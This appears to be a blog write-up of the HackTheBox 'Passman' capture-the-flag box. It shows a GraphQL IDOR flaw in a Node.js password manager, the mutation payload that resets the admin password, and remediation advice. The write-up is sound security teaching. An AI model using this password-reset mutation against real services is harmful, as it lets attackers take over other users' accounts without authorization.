

+++
date = '2025-08-12T17:29:11Z'
draft = false
title = 'HTB Passman'
+++

<!---
[ctf](/tags#ctf) [htb-passman](/tags#htb-passman) [hackthebox](/tags#hackthebox) [graphql](/tags#graphql) [idor](/tags#idor) [burp](/tags#burp) [inql](/tags#inql) [javascript](/tags#javascript)
--->

Passman is an easy-rated HackTheBox machine featuring a Node.js password manager vulnerable to IDOR via GraphQL mutations. This writeup demonstrates how I exploited an authorization flaw to change admin passwords and retrieve the flag.

## Box Info

| Name | [Passman](https://app.hackthebox.com/machines/Passman) |
|------|--------------------------------------------------------|
| OS | Linux |
| Difficulty | <span class="diff-Easy">Easy</span> |
| Creator | [xclow3n](https://app.hackthebox.com/users/172213) |
| Release Date | 27 Oct 2022 |

---

## Reconnaissance

### Application Overview
The web application presents a password manager interface:
- Login/Registration system
    <p style="display: flex; gap: 16px;">
        
        
    </p>
- Dashboard to store credentials
    <p style="text-align: center"></p>
- GraphQL API endpoint at `/graphql`
    <p></p>

### Source Code Analysis
Reviewing the provided source code revealed critical insights:
-  **Admin Privileges** 
    <p></p>
- **Initial User Setup**
    <p></p>

## Vulnerability Disclosure

### GraphQL Enumeration & Flawed Authorization
After detecting the use of graphql in the application I used **Burp Suite's InQL extension** and discovered a critical GraphQL mutation:

<p style="text-align: center"></p>

I noticed this `UpdatePassword` mutation here, then I checked the source code for the same and identified that there lies a flaw, and it can be use to exploit the idor vuln.

<p style="text-align: center"></p>

``` javascript
resolve: async (root, args, request) => {
    return new Promise((resolve, reject) => {
        if (!request.user) return reject(new GraphQLError('Authentication required!'));

        db.updatePassword(args.username, args.password) // No ownership check
}
```

## Exploitation

### Attack Workflow

I've captured the mutation request for storing passwords and modified it as per the `UpdatePassword` mutation

- Intercepted `AddPhrase` mutation request:
    ``` graphql
    {
        "query":
            "mutation($recType: String!, $recAddr: String!, $recUser: String!, $recPass: String!, $recNote: String!) { AddPhrase(recType: $recType, recAddr: $recAddr, recUser: $recUser, recPass: $recPass, recNote: $recNote) { message } }",
        "variables":
            {"recType":"Web","recAddr":"asdf","recUser":"adf",S"recPass":"adsf","recNote":"adsf"}
    }
    ```
    <p style="text-align: center"></p>
- Modified for `UpdatePassword`:
    ``` graphql
    {
        "query":
            "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }",
        "variables":
            {"username":"admin","password":"admin"}
    }
    ```
    <p style="text-align: center"></p>

- Then changed the password of the user admin (identified from the source code)
    <p style="text-align: center"></p>

- And successfully logged in as a root user and retrieved flag from admin dashboard (the stored password in the dashboard is the flag)
    <p style="text-align: center"></p>
    
## Remediation

- **Implement Proper Authorization:**
    ``` javascript
    if (currentUser !== targetUser && !currentUser.isAdmin) {
        throw new Error('Unauthorized');
    }
    ```
- **GraphQL Security Best Practices:**
    - Use schema directives for role-based access
    - Implement query whitelisting
    - Add rate limiting on sensitive operations

## Key Takeaways

- **GraphQL introspection** can reveal critical attack surfaces  
- **Always validate ownership** in mutation resolvers  
- **Source code review** often reveals logical flaws missed in black-box testing  
- **Burp Suite's InQL** is invaluable for GraphQL API testing   

## /exit
Exploit complete. Session terminated. *mic drop* 🚩 